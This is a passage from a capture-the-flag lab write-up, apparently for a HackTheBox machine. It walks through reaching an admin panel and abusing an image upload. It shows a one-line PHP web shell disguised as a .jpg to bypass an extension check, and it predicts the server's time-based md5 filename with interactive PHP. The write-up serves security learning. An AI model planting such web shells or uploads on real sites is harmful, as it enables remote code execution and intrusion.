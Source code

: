 Forward to server, then switch back to browser:

![](https://miro.medium.com/max/836/0*StLibNhHx9_lo8w4.png)

Profile was updated

We see our profile is updated, now refresh your browser to see we have a new option called Admin panel, click on that to get to here:

![](https://miro.medium.com/max/930/0*ZCPlPdfGwSxhGtsV.png)

Access to admin panel

We’ve found the image upload area which is using the PHP file we looked at earlier. It’s safe to assume this will be our method of gaining remote code execution. Let’s start with a simple web shell. We know from the code review that there’s a file extension check, but not a check of the contents of the file. We can easily bypass the check like this:

```
┌──(root💀kali)-[~]
└─# cat pencer.jpg
<?php system($_GET[cmd]);?>

```

We’ve used this a number of time before like on [Nineveh](https://pencer.io/ctf/ctf-htb-nineveh) and [Forge](https://www.hackthebox.eu/home/machines/profile/376). However it’s slightly more complicated here because the resulting filename also has an md5 hash of the current time prepended to it.

We can create our own simple filename generator to help. This is what the PHP file is doing:

```
$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);

```

Let’s test our own version:

```
┌──(root💀kali)-[~/htb/timing]
└─# date
Wed 22 Dec 17:13:27 GMT 2021

```

Use current time:

```
┌──(root💀kali)-[~/htb/timing]
└─# php -a
Interactive mode enabled
php > echo (md5('$file_hash' . strtotime('Wed 22 Dec 17:13:27 GMT 2021')) . '_pencer.jpg');
01c656c2e2adb93593117cb1b3d12808_pencer.jpg

```

So using interactive php mode we can take the line from the code we reviewed and replace time() with the current time on my Kali box. Then append the name of the file we created that will be used for command execution. The resulting filename is what we will need to use once it’s uploaded.
